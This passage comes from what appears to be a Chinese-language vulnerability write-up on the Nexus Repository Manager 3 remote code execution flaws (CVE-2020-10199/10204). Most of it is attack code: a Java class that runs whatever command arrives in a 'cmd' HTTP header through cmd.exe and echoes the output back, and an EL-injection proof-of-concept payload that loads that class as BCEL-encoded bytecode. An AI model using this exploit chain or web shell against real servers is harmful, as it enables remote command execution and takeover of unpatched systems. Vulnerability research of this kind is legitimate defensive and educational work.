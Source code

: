 ```java
                            Object request1Real = Wrapper2.getMethod("getRequest").invoke(request1);
                            String[] cmds = {"cmd.exe","/c" , (String)request1Real.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(request1Real, new Object[]{"cmd"})};

                            String sb = "";
                            java.io.BufferedInputStream in = new java.io.BufferedInputStream(Runtime.getRuntime().exec(cmds).getInputStream());
                            java.io.BufferedReader inBr = new java.io.BufferedReader(new java.io.InputStreamReader(in));
                            String lineStr;
                            while ((lineStr = inBr.readLine()) != null)
                                sb += lineStr + "\n";
                            writer.write(sb);
                            writer.flush();
                            inBr.close();
                            in.close();
                        }
                    }
                }
            }

        } catch (Exception e) {
        }
    }
}
```
poc：
```
${''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$' + code).newInstance()}
```
![](https://img-blog.csdnimg.cn/77c021c36e994a2a8cd9b521cd922247.png)

成功回显

参考：
[CVE-2020-10204 Nexus Repository Manager 3-远程执行代码漏洞分析](https://xz.aliyun.com/t/7559)
[Nexus Repository Manager(CVE-2020-10199/10204)漏洞分析及回显利用方法的简单讨论](https://www.cnblogs.com/magic-zero/p/12641068.html)
[CVE-2020-10204/CVE-2020-10199 Nexus Repository Manager3 分析&以及三个类的回显构造](https://hu3sky.github.io/2020/04/08/CVE-2020-10204_CVE-2020-10199:%20Nexus%20Repository%20Manager3%20%E5%88%86%E6%9E%90&%E4%BB%A5%E5%8F%8A%E4%B8%89%E4%B8%AA%E7%B1%BB%E7%9A%84%E5%9B%9E%E6%98%BE%E6%9E%84%E9%80%A0/)
